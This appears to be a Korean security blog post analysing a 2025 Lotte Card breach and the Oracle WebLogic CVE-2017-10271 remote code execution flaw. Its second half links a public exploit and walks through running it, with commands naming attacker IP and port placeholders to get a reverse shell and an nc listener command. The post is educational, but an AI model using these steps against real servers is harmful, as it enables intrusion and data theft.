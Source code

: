 ```yaml
---
title:  "2025-08-26 롯데카드 온라인 결제 시스템 해킹 사건 분석"
excerpt: "오라클 웹로직 CVE-2017-10271 취약점에 대해 알아보자. "

categories: [information, cve]
tags:
  - [cve, oracle ]

typora-root-url: ../../
 
date: 2025-09-02
last_modified_at: 2025-09-02
---
```

## 사건 개요
<img src="../../../images/2025-09-01-lottecard/image.png" alt="img" style="zoom:50%;" />

롯데카드 온라인 결제 시스템 해킹 시도 포착…웹쉘 업로드 통한 내부자료 1.7GB 유출 정황

롯데카드 내부 서버 해킹 시도가 실제 데이터 유출로 이어진 정황이 확인됐다. 이번 공격은 단순한 침투 시도를 넘어, 온라인 결제 시스템을 겨냥해 악성코드를 심고 내부 자료를 탈취하는 수준으로 진행된 것으로 알려졌다.

롯데카드는 지난 8월 26일 내부 서버 침해 정황을 포착한 뒤 9월 1일 금융감독원에 관련 사실을 신고했다. 자체 조사 결과, 공격자는 Oracle WebLogic(오라클 웹로직)의 CVE-2017-10271 취약점을 악용해 악성코드를 감염시킨 뒤 웹쉘을 업로드했다. 이를 통해 내부 결제 시스템 자료 약 1.7GB가 외부로 유출된 것으로 파악됐다.

롯데카드는 이번 사고가 랜섬웨어와 같은 직접적 서비스 마비 공격은 아니지만, 온라인 결제 핵심 시스템을 노린 침해였다는 점에서 사안의 심각성이 크다고 보고 있다.

**ISMS-P 획득 이후 발생한 보안 침해 사고**
롯데카드는 지난 8월 12일 정보보호 및 개인정보보호 관리체계(ISMS-P) 인증을 획득하며 보안 강화 노력을 이어온 기업이다. 그러나 불과 2주 만에 온라인 결제 시스템에서 취약점이 악용된 사건이 발생하면서 업계 전반의 보안 체계가 여전히 근본적인 위협에 직면해 있음을 보여준다.

출처 : 데일리시큐(https://www.dailysecu.com)

## CVE-2017-10271
### 취약점 개요
CVE-2017-10271은 Oracle WebLogic Server의 원격 코드 실행(RCE) 취약점으로, 공격자가 특수 제작된 XML 데이터를 전송하여 원격에서 임의의 코드를 실행할 수 있는 심각한 보안 문제이다.

해당 취약점은 WebLogic의 wls-wsat 컴포넌트에 존재하는 역직렬화 취약점으로써, 적절한 인증 없이 원격에서 공격이 가능하다. 공격자는 이를 이용해 웹쉘 업로드, 악성코드 설치, 원격 제어 등 다양한 공격을 수행할 수 있다.

### CVE-2017-10271 exploit 방법
- 공격자는 취약한 WebLogic 서버에 악성 XML 페이로드를 보내 원격 코드 실행 권한 획득
- 이후 PowerShell 스크립트 등을 이용해 공격용 바이너리를 다운로드 및 실행하거나 웹쉘을 업로드
- 공개된 익스플로잇 코드와 Metasploit 모듈이 존재하여 실습 환경에서 원격 코드 실행을 연습 가능

### exploit
[Exploit-DB] https://www.exploit-db.com/exploits/43458

#### exploit 준비 사항 및 사용 방법
- 취약한 Oracle WebLogic 서버 주소(URL)
- 공격자의 리버스 셸을 받을 IP(lhost) 및 포트(lport) (리스닝 환경 구성 필요)
- Python 3 환경 (requests 라이브러리 필요)
- 리버스 셸 리스닝 도구 (nc 또는 Python HTTP 서버 등)

#### 1. 취약한 서버가 있는 URL, 리버스 쉘을 받을 IP, Port 지정
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/
```

#### 2. 윈도우 서버 대상이면 `-w` 옵션 추가하여 윈도우용 페이로드 사용
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -w
```

#### 3. 취약 여부만 확인하려면 `-c` 옵션을 사용하여 HTTP 요청 체크 실행
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -c
```

#### 4. 이후 공격자 머신에서 리버스 쉘을 받을 리스너 실행
```bash
nc -nlvp <포트>

또는

python3 -m http.server <포트>
```
스크립트를 실행하면 취약 서버에 XML 페이로드를 전송하여 임의 코드(리버스 셸) 실행을 시도한다. 리스너에서 쉘 접속이 열리면 공격 성공

#### 주요 옵션
- `-l` : 리스너 IP
- `-p` : 리스너 포트
- `-r` : 취약 서버 URL (예: http://10.10.10.10:7001)
- `-c` : 취약점 존재 체크(HTTP 요청만 확인)
- `-w` : 윈도우 대상 페이로드 사용

주의: 반드시 허가된 실습 환경에서만 사용!!

